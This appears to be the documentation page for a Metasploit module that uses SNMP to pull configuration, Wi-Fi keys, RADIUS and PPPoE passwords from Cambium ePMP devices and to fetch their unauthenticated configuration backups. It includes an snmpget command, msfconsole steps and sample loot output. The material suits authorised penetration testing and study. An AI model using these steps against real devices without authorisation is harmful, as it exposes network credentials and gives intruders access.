 Cambium devices (ePMP, PMP, Force, others) can be administered using SNMP. The device configuration contains IP addresses, keys, and passwords, amongst other information.
This module uses SNMP to extract Cambium ePMP device configuration. On certain software versions, specific device configuration values can be accessed using SNMP RO string, even though only SNMP RW string should be able to access them, according to MIB documentation.

The module also triggers full configuration backup, and retrieves the backup url. The configuration file can then be downloaded without authentication.
The module has been tested primarily on Cambium ePMP current version (3.2.x, as of today), PMP, and Force units.

Note: If the backup url is not retrieved, it is recommended to increase the TIMEOUT and reduce the THREADS. Backup url can also be retrieved by quering the OID as follows:

```
snmpget -v2c -c public 1.3.3.7 1.3.6.1.4.1.17713.21.6.4.13.0

```

## Verification Steps

1. Do: ```use auxiliary/scanner/snmp/epmp_snmp_loot```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

  ```
msf > use auxiliary/scanner/snmp/epmp_snmp_loot
msf auxiliary(epmp_snmp_loot) > set rhosts 1.3.3.7
msf auxiliary(epmp_snmp_loot) > set COMMUNITY private
msf auxiliary(epmp_snmp_loot) > run

msf auxiliary(epmp_snmp-final) > run

[*] Fetching System Information...

[+] 1.3.3.7
[+] SNMP System Name: Cambium
[+] SNMP System Description: Cambium
[+] Device UpTime: 0021:08:36:45
[+] U-boot version: U-Boot 9350_PX 1.1.4.e (Feb 24 2016 - 20:14:38) 

[*] Fetching SNMP Information...

[+] SNMP read-only community name: public
[+] SNMP read-write community name: private
[+] SNMP Trap Community: cambiumtrap
[+] SNMP Trap Server IP Address: Null 

[*] Fetching WIFI Information...

[+] Wireless Interface SSID: SSID
[+] Wireless Interface Encryption Key: secretkey
[+] Wireless Interface Encryption (1 - Open mode, 2 - wpa2 mode, 3 - EAP-TTLS): 2 

[*] Fetching WIFI Radius Information...

[+] RADIUS server info:
[+] RADIUS server port: Null
[+] RADIUS server secret: Null
[+] Wireless Radius Username: cambium-station
[+] Wireless Radius Password: cambium 

[*] Fetching Network PPPoE Information...

[+] Network PPPoE Service Name: temp
[+] Network PPPoE Username: username
[+] Network PPPoE Password: password

[+] Cambium ePMP loot saved at /root/.msf4/loot/20000000000003_moduletest_1.3.3.7_cambium_snmp_loot_838642.txt
[+] Configuration backed-up for direct download at: http://1.3.3.7/dl/3.2.2_00000000000001.json
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
